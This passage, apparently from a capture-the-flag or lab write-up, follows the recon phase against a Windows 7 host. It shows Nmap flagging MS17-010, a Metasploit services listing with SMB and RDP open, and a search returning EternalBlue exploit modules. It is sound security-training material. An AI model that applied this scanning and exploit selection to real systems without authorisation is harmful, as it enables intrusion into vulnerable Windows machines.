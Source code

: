 ```bash
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |     IDs:  CVE:CVE-2017-0143
[*] Nmap: |     Risk factor: HIGH
[*] Nmap: |       A critical remote code execution vulnerability exists in Microsoft SMBv1
[*] Nmap: |        servers (ms17-010).
[*] Nmap: |
[*] Nmap: |     Disclosure date: 2017-03-14
[*] Nmap: |     References:
[*] Nmap: |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
[*] Nmap: |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
[*] Nmap: |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 15.51 seconds
```

I now had a potential attack vector to explore, but I decided to do a quick recap of the services on the host to make sure I didn't miss anything. This was crucial because I had overlooked an open RDP port, which ended up being important later in the attack.

```bash
msf5 > services 
Services
========

host          port   proto  name           state  info
----          ----   -----  ----           -----  ----
10.10.201.83  135    tcp    msrpc          open   Microsoft Windows RPC
10.10.201.83  139    tcp    netbios-ssn    open   Microsoft Windows netbios-ssn
10.10.201.83  445    tcp    microsoft-ds   open   Windows 7 Professional 7601 Service Pack 1 microsoft-ds workgroup: WORKGROUP
10.10.201.83  3389   tcp    ms-wbt-server  open   
10.10.201.83  49152  tcp    unknown        open   Microsoft Windows RPC
10.10.201.83  49153  tcp    unknown        open   Microsoft Windows RPC
10.10.201.83  49154  tcp    unknown        open   Microsoft Windows RPC
10.10.201.83  49158  tcp    unknown        open   Microsoft Windows RPC
10.10.201.83  49160  tcp    unknown        open   Microsoft Windows RPC
```

### Preparing the attack

The first step was to check if there were any exploits available for `ms17-010`

```bash
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```